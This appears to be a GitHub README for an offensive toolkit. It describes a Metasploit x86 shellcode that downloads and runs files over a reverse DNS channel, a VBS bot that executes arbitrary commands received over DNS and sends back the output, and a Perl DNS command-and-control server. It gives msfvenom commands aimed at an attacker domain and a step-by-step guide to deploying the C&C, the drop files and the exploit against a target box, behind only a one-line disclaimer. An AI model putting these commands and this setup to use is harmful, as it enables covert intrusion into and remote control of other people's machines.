 # Reverse DNS payloads for Remote control
Reverse DNS payload for Metasploit: Download  Exec x86 shellcode. Also DNS Handler and VBS bot (working over DNS) as PoC included.

# Disclaimer

This project created for testing NextGen security solutions. Not allowed to use in any illegal activities.

## Components

### dns_download_exec_svchost.rb

Metasploit payload: X86 download and exec via reverse DNS channel. Jut put this file into msf3 payload folder and then you could use it like that:

     mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.zlo.ws EXT=vbs -f js_le | sed -s 's/\%/\\/g'

DOMAIN - domain you should control (NS).

EXT - file extension

This payload are using getaddrinfo API function for getting data over DNS (to %temp% dir). This shellcode will work even on boxes without IPv6 assigned (my previos one - https://www.exploit-db.com/exploits/17326/ required IPv6 address asssigned, so in this, new version we do not need it!). 
In this new version resolved IPv6 addresses will be from reserved block. This shellcode uses IPv6 in ranges from ff00:: to ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

those IPv6 will be resolve even if no IPv6 address assigned to the interface (only linked). First byte should be ff, than second is control byte that tell us what block of data we have and flag "last block". All last 14 bytes of IPv6 - data as is (no encoding needed, like in TXT section). For one DNS response we could receive up to 17 IP addresses, so for one DNS request we could get 238 bytes of raw data.
 
 aaaa.a.dom.ws - first 238 bytes
 baaa.a.dom.ws - second 238 bytes
 caaa.a.dom.ws - ....
 ....
 abaa.a.dom.ws - ...
 cbaa.a.dom.ws - for example last peace of data (in this case we have flag of last pice in first 4 bits of second byte)
 
 Maximum size: up to 88 Mb (zzzz.zlo.ws)
 Download Speed: ~ 4 Kb/sec
 Shellcode size: 833 bytes (no null bytes by default)
 
### bot.vbs
 
 PoC of agent on VBS that could use reverse DNS channel for recieveing commands. This prototype uses nslookup for resolving ipv4 addresses.
 As first action this agent will  try to register on C&C by using AD domain/workgroup name and current login, after that it will frequently requesting DNS  for getting commands to execute. If command will be received then result of execution will be sent back in base64 format. 
 
#### Commands
    exit                   - kill process with agent (wscript)
    sleep                  - sleep 30 seconds until next request
    download [part] [file] - download another file [part] - subdomain with file
                                                   [file] - local file name (to create)
                             Download speed here ~ 1 Kb/Sec
                             example: download b drop.exe
                             (will be converted into aaaa.b.dom.ws, baaa.b.dom.ws)
    [any other command]    - will run cmd /c [any other command] 
                             Result of an execution (STDOUT/STDERR) will be returned to the C&C and stored in log file

    
This is juts PoC and prototype so we do not have here autorun and hiding features!

### revdns.pl

DNS handler that should be used as dom.ws name server. Works as agent C&C server and could support sessions (if we have more than one agent)
 and also contains egg-drop for shellode/or bot.vbs (up to 88Mb). Support both: bot.vbs and DNS shellcode. And it is designed to work as combo:
  
 1. Shellcode using this DNS downloading bot.vs and run it
 2. bot.vs using same DNS as C&C and could download next file (see revdns.pl)

P.S. This perl code based on my old ugly-coded-perl DNS server, so sorry for that 8)

Original(and old) preso about this project is here: [https://erpscan.com/wp-content/uploads/2012/06/dns-for-evil.pdf](CONFidence 2011 slides: DNS for EVIL)

## Example usage

1) Buy a domain name and host a revdns.pl. Let's say we have zlo.ws and host 11.11.11.11 (as our C&C server)

2) Configure revdns.pl (on 11.11.11.11) 

    @EGGs = ("bot.vbs","drop.exe")
    
So now it "stores" two drop files in a.zlo.ws and in b.zlo.ws

3) Configure revdns.pl 
  
        $DOMAIN = "zlo.ws";               
        $IPA = "11.11.11.11"; 

4) Configure bot.vbs (on 11.11.11.11)

        DOMAIN="zlo.ws" 
        
5) Put drop.exe (on 11.11.11.11) as any binary (better small 8))              
              
6) Run revdns.pl

7) Setup NS for zlo.ws to 11.11.11.11

8) Now we a read, let's generate shellocode

If you want shellcode download and exec bot.vbs
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.zlo.ws EXT=vbs -f js_le
        
If you want shellcode download and exec drop.exe
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=b.zlo.ws EXT=exe -f js_le
        
9) Run exploit with shellocde on target box, and then (if bot.vbs used) wait when BOT from the box will be connected to revdns.pl

10) Use interactive or auto mode of revdns.pl

